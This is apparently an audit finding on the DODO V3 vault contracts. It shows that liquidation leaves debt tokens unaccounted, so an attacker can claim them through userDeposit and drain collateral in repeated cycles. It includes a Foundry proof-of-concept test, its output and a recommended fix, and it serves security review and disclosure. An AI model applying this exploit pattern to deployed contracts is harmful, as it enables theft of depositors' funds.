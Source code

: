 0xkaden

high

# Attacker can steal debt repaid after liquidation

## Summary
During liquidation, debt tokens are sent to the vault. The state stored reserve balance is not updated afterwards, leaving a difference between the actual token balance of the vault and the accounted balance of the vault. These unaccounted tokens can be stolen by calling `D3VaultFunding.userDeposit` for the corresponding token, which then applies the difference between it's last accounted balance and actual balance as a deposit on the users behalf, granting them dTokens which they can later withdraw for the underlying tokens.

## Vulnerability Detail
`D3VaultFunding.userDeposit` checks the actual token balance of the contract and the last accounted balance of the contract, and assumes any increase in tokens was sent by the user, granting the user corresponding dTokens.

Anytime the actual balance of the contract is greater than the last accounted balance, it's possible to call this function and receive dTokens corresponding to the underlying tokens.

Since `D3VaultLiquidation.liquidate` fails to call for an update to the reserves of the debt token, there is a surplus which can be taken.

We can add the following function to `D3VaultLiquidation.t.sol` to test an exploit:

```solidity
function testCanTakeUnaccountedLiquidationCollateral() public {
    contextCanBeLiquidated();

    token2.mint(user2, 10 ether);
    vm.prank(user2);
    token2.approve(address(d3Vault), 10 ether);

    vm.prank(address(d3MM));
    token3.approve(address(d3Vault), type(uint256).max);

    vm.prank(user2);
    d3Vault.liquidate(address(d3MM), address(token3), 25 ether, address(token2), 2 ether);

    uint256 actualBalance = MockERC20(token2).balanceOf(address(d3Vault));
    (, uint256 expectedBalance,,,,,,,,,,) = d3Vault.assetInfo(address(token2));
    console.log("expectedBalance: %s", expectedBalance);
    console.log("actualBalance: %s", actualBalance);

    (address dToken2,,,,,,,,,,) = d3Vault.getAssetInfo(address(token2));

    uint256 dTokenBalanceBefore = D3Token(dToken2).balanceOf(user1);

    mockUserQuota.setUserQuota(user1, address(token2), 1000 * 1e18);
    vm.prank(user1);
    d3Vault.userDeposit(user1, address(token2));

    uint256 dTokenBalanceAfter = D3Token(dToken2).balanceOf(user1);

    console.log("dToken balance increase: %s", dTokenBalanceAfter - dTokenBalanceBefore);
}
```

We can see from the output that the actual balance is higher than the accounted balance and that an attacker depositing credits them with the corresponding dTokens:

```solidity
expectedBalance: 490000000000000000000
actualBalance: 492000000000000000000
dToken balance increase: 2000000000000000000
```

## Impact
Anytime a liquidation occurs, an attacker can steal the tokens used to repay the debt, thereby preventing debt from actually being paid and leaving the system in a liquidate-able state. This allows for an attacker to liquidate => steal debt => liquidate => steal debt => ... until it is no longer profitable, draining the system of collateral.

## Code Snippet

[`D3VaultFunding.userDeposit`](https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/D3Vault/D3VaultFunding.sol#L29)
```solidity
AssetInfo storage info = assetInfo[token];
uint256 realBalance = IERC20(token).balanceOf(address(this));
uint256 amount = realBalance  - info.balance;
require(ID3UserQuota(_USER_QUOTA_).checkQuota(user, token, amount), Errors.EXCEED_QUOTA);
uint256 exchangeRate = _getExchangeRate(token);
uint256 totalDToken = IDToken(info.dToken).totalSupply();
require(totalDToken.mul(exchangeRate) + amount <= info.maxDepositAmount, Errors.EXCEED_MAX_DEPOSIT_AMOUNT);
uint256 dTokenAmount = amount.div(exchangeRate);

IDToken(info.dToken).mint(user, dTokenAmount);
```

## Tool used

- Manual Review
- forge

## Recommendation
It's recommended that in `D3VaultLiquidation.liquidate`, the debt token reserves of the pool are updated. Additionally, it's recommended that either:
- The flow of applying the difference in actual and accounted balance is removed in favour of the use of a `safeTransferFrom` instead or
- `D3VaultFunding.userDeposit` is only allowed to be called by a validated proxy